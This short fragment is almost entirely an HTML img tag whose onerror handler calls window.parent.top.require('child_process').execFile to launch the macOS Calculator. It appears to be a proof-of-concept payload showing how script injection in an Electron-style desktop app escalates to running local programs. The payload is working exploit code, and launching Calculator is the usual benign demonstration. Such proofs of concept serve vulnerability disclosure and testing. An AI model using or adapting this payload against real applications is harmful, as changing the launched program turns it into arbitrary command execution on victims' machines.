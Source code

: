 
<img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });">